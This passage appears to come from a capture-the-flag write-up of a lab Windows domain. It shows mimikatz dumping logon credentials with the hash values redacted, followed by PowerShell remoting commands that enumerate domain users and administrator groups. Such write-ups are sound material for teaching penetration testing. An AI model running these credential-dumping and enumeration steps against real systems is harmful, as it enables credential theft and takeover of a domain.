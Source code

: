 ```shell
PS C:\Users\jmorgan\Documents> C:\Utils\mimikatz.exe
[...]
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
[...]
Authentication Id : 0 ; 159931 (00000000:000270bb)
Session           : Interactive from 1
User Name         : edavies
Domain            : ACUTE
Logon Server      : ATSSERVER
Logon Time        : 15/08/2023 06:00:42
SID               : S-1-5-21-1786406921-1914792807-2072761762-1106
	msv :	
	 [00000003] Primary
	 * Username : edavies
	 * Domain   : ACUTE
	 * NTLM     : {Redacted}
	 * SHA1     : {Redacted}
	 * DPAPI    : {Redacted}
[...]
```

However, there's no other recently logged in domain users' hashes except `edavies`...

Let's take a step back. We need to **find which domain user is a member of `Domain Admins` group.**

**Enumerate domain users:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { net user /domain }
[...]
-------------------------------------------------------------------------------
Administrator            awallace                 chall                    
edavies                  Guest                    imonks                   
jmorgan                  krbtgt                   lhopkins                 
```

- Domain user: `awallace`, `chall`, `edavies`, `imonks`, `jmorgan`, `lhopkins`

**Enumerate members of `Domain Admins` group:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { net localgroup Administrators }
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
```
